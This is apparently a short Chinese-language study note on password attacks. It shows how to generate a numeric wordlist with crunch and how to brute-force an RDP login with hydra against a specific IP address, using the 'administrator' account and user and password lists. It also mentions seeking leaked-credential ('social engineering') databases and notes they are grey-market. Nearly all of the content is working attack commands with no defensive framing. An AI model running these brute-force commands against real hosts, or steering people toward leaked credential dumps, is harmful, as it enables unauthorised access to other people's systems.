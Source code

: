 ```yaml
---
layout: default
title: 
---
```


# crunch枚举密码本创建

```bash
crunch 3 3 0123456789 -o password1.txt
# crunch 咀嚼，生成密码本的工具
# 3 从3个字符的密码开始
# 3 到3个字符的密码结束
# 0123456789 生成密码的元素
# o 输出
```

# 社工库密码本的寻找

> * 属于灰产
> 
> * 不太好找

# 使用hydra暴破

```bash
hydra -l administrator -P password1.txt 112.125.18.22 rdp
# l login 用户名
# P password 指密码本
# 112.125.18.22 目标IP
# rdp 目标端口
hydra -L name.txt -P password.txt 112.125.18.22 rdp
# L login 指用户名本
# 用户名本和密码本做笛卡尔积
```


